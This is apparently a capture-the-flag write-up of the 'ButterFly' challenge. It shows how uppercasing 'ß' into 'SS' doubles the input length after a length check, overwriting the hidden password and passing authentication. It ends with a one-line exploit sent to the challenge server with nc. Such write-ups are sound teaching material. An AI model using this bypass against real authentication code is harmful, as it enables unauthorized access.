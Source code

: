 # ButterFly

<https://ctftime.org/writeup/22045>  

The name ButterFly suggests some kind of buffer overflow. Let's examine the python script.

In summary,

- We have a buffer of 32 bytes.
- There is a hidden password of 16 bytes, which is written on the second half (from the 17th byte) of the buffer.  
- We have to input a password which is written on the buffer from the start.  
- Finally, we get the flag if the first 16 bytes matches the other 16 bytes.

So, the first thing that comes to mind is to overwite the complete buffer with same bytes, and get the flag.  
But, there's a small restriction. In the `authenticate` function, we have a check for input length, and it has to be less than 16.

```py
if len(user_input) > 16:
        print('PLEASE INPUT A PASSWORD LESS THAN 16 CHARACTERS LONG')
        return False
```

But, it actually allows input of length upto 16, not strictly less.  
But it doesn't help much, since we can't just input a 32 character string.  
Let's read further.  

```py
user_input = user_input.upper()
```

This part is interesting, and it happens after the length check, and just before it writes the input to the buffer.  
This makes us think if there is way to change string's length by applying `str.upper()` method.  

Let's write a quick script to check if its possible.  
I iterate over all utf-8 characters, and check is `char.upper()` is of length 2.  
For iterating over utf-8 characters, I just grabbed some code from github.

```py
#!/usr/bin/env python

def main():
    for char in utf8_iterator():
        if len(char) == 1 and len(char.upper()) == 2:
            print(char, char.upper())
            break

# from https://github.com/Lucas-C/dotfiles_and_notes/blob/master/languages/python/utf8_iterator.py
import itertools

def byte_iterator(start, end):
    for i in range(start, end):
        yield bytes((i,))

def utf8_bytestring_iterator():
    # Doc: https://en.wikipedia.org/wiki/UTF-8#Description & https://fr.wikipedia.org/wiki/UTF-8#Description
    yield from byte_iterator(0x00, 0x80)  # 2^7 characters
    for i, j in itertools.product(byte_iterator(0xc0, 0xe0),
                                  byte_iterator(0x80, 0xc0)):  # 2^11 characters
        yield b''.join((i, j))  # Some additional restrictions could be applied here (start=0xc2)
    for i, j, k in itertools.product(byte_iterator(0xe0, 0xf0),
                                     byte_iterator(0x80, 0xc0),
                                     byte_iterator(0x80, 0xc0)):  # 2^16 characters
        yield b''.join((i, j, k))  # Some additional restrictions could be applied here
    for i, j, k, l in itertools.product(byte_iterator(0xf0, 0xf8),
                                        byte_iterator(0x80, 0xc0),
                                        byte_iterator(0x80, 0xc0),
                                        byte_iterator(0x80, 0xc0)):  # 2^21 characters
        yield b''.join((i, j, k, l))  # Some additional restrictions could be applied here

def utf8_iterator():
    for bytestring in utf8_bytestring_iterator():
        try:
            yield bytestring.decode('utf8')
        except UnicodeError:
            pass

if __name__ == '__main__':
    main()
```

And we found one!  Its `ß`. And `'ß'.upper() == 'SS'`.  

We use it to get our final exploit  

```sh
#!/bin/bash
python -c "print('ß'*16)" | nc ctf.cscml.zenysec.com 20007  
```
